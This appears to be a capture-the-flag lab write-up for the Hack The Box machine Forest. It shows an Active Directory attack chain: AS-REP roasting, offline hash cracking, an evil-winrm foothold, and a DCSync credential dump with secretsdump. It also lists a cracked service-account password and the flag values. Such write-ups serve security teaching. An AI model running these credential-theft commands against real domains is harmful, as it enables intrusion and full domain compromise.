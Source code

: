 # HTB: Forest

## Engagement Overview
**Target:** Forest (HTB)  
**Box IP:** 10.10.10.161  
**Local IP:** 10.10.14.2  
**Date:** 2025-07-15

---

### Objectives
- Enumerate Active Directory/Exchange environment and identify weak Kerberos/LDAP configurations.  
- Obtain an AS-REP roastable TGT, crack offline to recover service account credentials.  
- Use service account to escalate (Exchange abuse → DCSync) and obtain Domain Administrator.  
- Capture `user.txt` and domain `root.txt`.

---

## Service Enumeration

```bash
nmap -p- -sC -sV -oA forest-scan 10.10.10.161
```

**Open ports (condensed):**
- 53/tcp (DNS), 88/tcp (Kerberos), 135/tcp (MS RPC), 139/tcp (NetBIOS), 389/tcp (LDAP), 445/tcp (SMB), 464/tcp (kpasswd), 593/tcp (RPC/HTTP), 636/tcp (LDAPS), 3268/tcp (GC LDAP), 3269/tcp (GC LDAPS)

**Domain info discovered:**
- Domain: `htb.local`  
- Hostname/FQDN: `FOREST.htb.local`  
- OS: Windows Server 2016 Standard

Notes: anonymous LDAP binds allowed; message signing required on SMB; Kerberos pre-auth disabled for target service account (AS-REP roastable).

---

## Initial Access

### AS-REP Roasting (Kerberos pre-auth disabled)
```bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
# output: AS-REP roastable hash for svc-alfresco
```

### Crack hash offline
```bash
hashcat -m 18200 -a 0 hash.txt wordlist.txt
# recovered: svc-alfresco:s3rvice
```

### Authenticate & foothold
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
# authenticated as svc-alfresco
```

---

## Privilege Escalation

### Exchange/AD abuse → DCSync
- `svc-alfresco` is member of **Account Operators** and has permissions to modify Exchange groups (WriteDACL-like permissions discovered).  
- Abused Exchange permissions to add service account to privileged groups and escalate permissions.  
- Performed DCSync using `impacket-secretsdump` to extract NTLM hashes including Administrator.

```bash
secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
# dumped hashes including Administrator NTLM
```

**Result:** Domain Administrator compromise achieved; domain credentials and hashes extracted.

---

## House Cleaning / Post-Exploitation

- No persistent backdoors created; tooling executed in-memory when possible.  
- Removed any temporary artifacts created during engagement.

**Flags captured:**  
- `user.txt`: `58fc66dc0f2af05eb1a1751186720d85`  
- `root.txt` (domain/root): `c0a4c2b3bd3faf59b20d049d108d7613`

---

## Tools Utilized
- nmap, ldapsearch  
- impacket (GetNPUsers, secretsdump)  
- hashcat  
- evil-winrm  
- ropnop/windapsearch (auxiliary AD tooling)  

---

## Key Takeaways
- Check for Kerberos pre-auth disabled accounts early (AS-REP roasting).  
- Exchange permissions are powerful: misconfigured Exchange delegation can lead to DCSync and full domain compromise.  
- AD enumeration (LDAP/GC) and group mapping are essential on Windows domain boxes.  
